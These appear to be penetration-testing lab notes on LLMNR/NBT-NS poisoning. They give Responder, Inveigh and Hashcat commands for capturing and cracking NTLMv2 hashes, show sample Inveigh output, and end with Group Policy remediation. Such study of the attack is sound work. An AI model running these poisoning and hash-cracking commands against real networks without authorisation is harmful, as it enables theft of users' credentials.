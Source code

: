 




# LLMNR & NBT-NS
- Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.
- Link-Local Multicast Name Resolution (LLMNR)
	- `UDP 5355` natively
	- If a machine attempts to resolve a host but DNS resolution fails, the machine will try to ask all other machines on the local network for the correct host address via LLMNR. 
- NetBIOS Name Service (NBT-NS)
	- If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. 
	- `UDP 137` natively

## Weak Point
- When LLMNR/NBT-NS are used for name resolution, ==ANY host on the network can reply==. 
- This is where we come in with `Responder` to poison these requests. 
- With network access, we can spoof an authoritative name resolution source ( in this case, a host that's supposed to belong in the network segment ) in the broadcast domain by responding to LLMNR and NBT-NS traffic as if they have an answer for the requesting host.


## Tools
|                                                       |                                                                                                     |
| ----------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| [Responder](https://github.com/lgandx/Responder)      | Responder is a purpose-built tool to poison LLMNR, NBT-NS, and MDNS, with many different functions. |
| [Inveigh](https://github.com/Kevin-Robertson/Inveigh) | Inveigh is a cross-platform MITM platform that can be used for spoofing and poisoning attacks.      |
| [Metasploit](https://www.metasploit.com/)             | Metasploit has several built-in scanners and spoofing modules made to deal with poisoning attacks.  |



# From Linux Attack Host
1. Start Responder, and then run other enumeration tasks against the network to see what hashes responder picks up

```bash
sudo responder -I ens224 
```

2. Pass these hashes to `Hashcat` for cracking

```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```



# From Windows Attack Host

### Inveigh (Old Version)
1. Use `Inveigh`. Import it onto PowerShell

```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```

2. Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.

```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


### InveighZero (New Version)
- Newer version in C#. Executable needs to be compiled first.

1. Start capturing hashes by running Inveigh

```powershell-session
PS C:\htb> .\Inveigh.exe
```

1. Inveigh allows you to use an interactive console by hitting `ESC`

```powershell-session
<SNIP>

[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61310
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61311
C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

2. Enter `GET NTLMV2UNIQUE` for unique hashes
3. Enter `GET NTLMV2USERNAMES` for usernames collected



# Remediation
Mitre ATT&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS.

> We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."
